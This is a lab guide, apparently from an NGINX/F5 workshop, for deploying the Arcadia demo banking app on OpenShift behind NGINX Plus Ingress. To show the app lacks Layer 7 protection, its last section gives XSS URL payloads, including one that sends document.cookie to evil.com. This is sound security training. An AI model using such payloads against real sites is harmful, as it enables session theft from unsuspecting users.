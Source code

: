 Access Arcadia app without NGINX App Protect
------------------------------------------------


Publish Arcadia app with NGINX Plus Ingress Controller
#######################################################

.. note::  The Arcadia Financial application is the same application we introduced in Module 1, but a different version with enhanced features which will be used for our security lab exercises.

1. Deploy the Arcadia Application into Kubernetes

   The Arcadia Application deployment is a single manifest file containing the resources need to build.

   - Kubernetes deployment for the four docker containers
   - Kubernetes services for the four docker containers

   Get the yaml file. In the terminal window, copy the below text and paste+enter:

   .. code-block:: bash

    wget https://raw.githubusercontent.com/ericzji/nginx-openshift-lab/main/docs/class1/module2/templates/arcadia-all.yaml

   Apply the updated yaml file. In the terminal window, copy the below text and paste+enter:

   .. code-block:: bash

      oc apply -f ./arcadia-all.yaml


2. Arcadia application Kubernetes objects

   In the terminal window, copy the below text and paste+enter:

   .. code-block:: bash

      oc get services

   Example:

3.  Export the NGINX Ingress Controller services

    Interacting with the NGINX Ingress Controller is more comfortable with exporting the service External IPs into system variables. This allows for templating to take place when we expose our applications.

    In the terminal window copy the below text and paste+enter:

    .. code-block:: bash

       export dashboard_nginx_ingress=$(oc get svc dashboard-nginx-ingress --namespace=nginx-ingress | tr -s " " | cut -d' ' -f4 | grep -v "EXTERNAL-IP")

    .. code-block:: bash

       export nginx_ingress=$(oc get svc my-nginx-ingress-controller-nginx-ingress --namespace=nginx-ingress | tr -s " " | cut -d' ' -f4 | grep -v "EXTERNAL-IP")


4. Publish Arcadia app with NGINX Plus Ingress Controller

   Re-create NGINX Ingress Controller with Basic HTTP:

   In the terminal window, copy the below text and paste+enter:

   .. literalinclude :: templates/ingress-arcadia.yml
      :language: yaml



Access the Arcadia application
#################################
Arcadia application is now exposed through the NGINX Ingress Controller on HTTP!

NGINX Ingress Controller URL (replace with the nginx-ingress EXTERNAL-IP): http://EXTERNAL-IP/

You should be presented with the Main page, click on Login and enter the credentials as below.

.. code-block:: 

    Username: matt
    Password: ilovef5

When you click on Log me in, you should be presented with Arcadia application that consist of four microservices


.. image:: ./pictures/image10.png
   :align: center

Congratulations!

You have now successfully deployed the application in K8s cluster and published it externally using the NGINX Plus Ingress controller


Is our application protected against Layer 7 attacks?
######################################################
 
We deployed and published the application, but is our application protected against web application attacks? Let's find out by executing a simple XSS attack. XSS is one of the well know OWASP top 10 attack.

- Launch the Firefox browser and execute a XSS attack by appending the ``?a=<script>`` to the end of application URL, you should see the request is allowed.

.. image:: ./pictures/image11.png
   :align: center

- Execute another attack by appending ``?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`` to the application URL, this request is also allowed and a bad actor has successfully stealed your document cookie by luring you to his website.

.. image:: ./pictures/image12.png
   :align: center

Now that we know our application is vulnerable to Layer 7 attacks, we will address this in this Lab and protect our application using NGINX App Protect (NAP)

